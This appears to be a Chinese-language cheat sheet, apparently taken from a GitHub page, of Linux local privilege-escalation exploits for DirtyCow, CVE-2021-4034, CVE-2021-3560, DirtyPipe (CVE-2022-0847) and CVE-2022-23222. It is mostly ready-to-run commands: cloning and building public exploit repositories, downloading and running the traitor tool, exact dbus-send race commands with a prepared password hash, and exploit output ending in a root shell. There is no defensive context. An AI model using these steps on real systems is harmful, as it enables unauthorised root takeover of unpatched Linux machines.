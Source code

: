   ##### Linux脏牛提权
	https://github.com/FireFart/dirtycow
	$gcc -pthread dirty.c -o dirty –lcrypt
	$./dirty passwd 
	生成账户密码
	https://github.com/gbonacini/CVE-2016-5195
	$make
	$./dcow -s
  ##### CVE-2021-4034
	https://github.com/berdav/CVE-2021-4034
	只需执行make，./cve-2021-4034然后get root shell
  ##### CVE-2021-3560
  	检查执行命令所需时间
	>time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:ignite string:"ignite user" int32:1
	提前结束(多运行几次)
	>dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:ignite string:"ignite user" int32:1 & sleep 0.0035s ; kill $!
	生成密码
	>openssl passwd -5 ignite@123
	执行(多运行几次)
	>dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1001 org.freedesktop.Accounts.User.SetPassword string:'$5$F2KwiUlWkn2i8DC.$rw9AOjKsmK83DhncqehVUzOKVqq.ArwS2G8eQKVntv7' string:BestHackingTutorials & sleep 0.0035s ; kill $!
	>su ignite
	>password: ignite@123
	>whoami
	>id
	>sudo bash获取root
  ##### CVE-2022-0847
  	>wget https://github.com/liamg/traitor/releases/download/v0.0.14/traitor-amd64
	>./traitor-amd64 --exploit kernel:CVE-2022-0847
	>whoami
	>id
	或
	>git clone https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit.git
	>cd CVE-2022-0847-DirtyPipe-Exploit
	>./compile.sh
	>./exploit
  ##### CVE-2022-23222
  	https://github.com/tr3ee/CVE-2022-23222
```bash
$ make
cc -I include -static -w -o exploit exploit.c
$ ./exploit 
[*] phase(1/8) 'create bpf map(s)' running
[+] phase(1/8) 'create bpf map(s)' done
[*] phase(2/8) 'do some leak' running
[+] phase(2/8) 'do some leak' done
[*] phase(3/8) 'prepare arbitrary rw' running
[+] phase(3/8) 'prepare arbitrary rw' done
[*] phase(4/8) 'spawn processes' running
[+] phase(4/8) 'spawn processes' done
[*] phase(5/8) 'find cred (slow)' running
[+] phase(5/8) 'find cred (slow)' done
[*] phase(6/8) 'overwrite cred' running
[+] phase(6/8) 'overwrite cred' done
[*] phase(7/8) 'spawn root shell' running
[+] Enjoy root!
# id
uid=0(root) gid=0(root) groups=65534(nobody)
# exit
[+] phase(7/8) 'spawn root shell' done
[*] phase(8/8) 'clean up the mess' running
[+] phase(8/8) 'clean up the mess' done
```